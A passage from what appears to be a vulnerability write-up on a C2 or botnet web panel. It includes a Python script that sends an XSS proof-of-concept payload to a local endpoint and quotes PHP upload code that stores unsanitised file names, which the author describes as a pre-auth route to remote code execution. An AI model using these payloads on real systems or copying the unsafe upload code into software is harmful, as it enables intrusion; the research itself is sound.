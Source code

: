 so you can just use curl or the below python script to trigger a XSS PoC, writing a good payload is left as an exercise to the reader.


```python
import requests

payload = "<script>alert(1)</script>"

url1 = f"http://localhost:8200/commands.php?GUID=bla{payload}"


r = requests.get(url1)
print(r.text)
```

SCREENSHOT panel



And this isn't the only place where this method will work, also the client data displayed in the panel is just the same, but as they fucked up the database config / insert into process, this does not work on my version per default and I was to lazy to fix it.


Finally we can come to the most revarding vuln, pre-auth file upload to RCE, aah. So the developers do allow the uploading of files and fortunatly for us have no clue about s3kur1ty.

```php
# result.php : 6

if(!isset($_POST['GUID'])){
	http_response_code(400);
	die('GUID not set.');
} else $GUID = $_POST['GUID'];

if(!isset($_POST['RT'])){
	http_response_code(400);
	die('Response type not set.');
} else $RT = $_POST['RT'];

if(!isset($_POST['ID'])){
	http_response_code(400);
	die('Command identifier not set.');
} else $ID = $_POST['ID'];

```

This part of the code just makes sure that all the required parameters are at least set.


```php
# result.php : 1
define("RT_STRING", 1);
define("RT_FILE", 2);
define("RT_REGISTER", 3);
...

# result.php : 29
switch($RT){
  ...
	case RT_FILE:{
		if(!isset($_FILES['File'])){
			http_response_code(400);
			die('File not found.');
	    }
		$Target = 'uploads/' . round((microtime(true) * 1000)+rand(1, 100000)) . '_' . basename($_FILES['File']['name']);
		move_uploaded_file($_FILES['File']['tmp_name'], $Target);
		SetResult($GUID, 'File upload complete.');
```
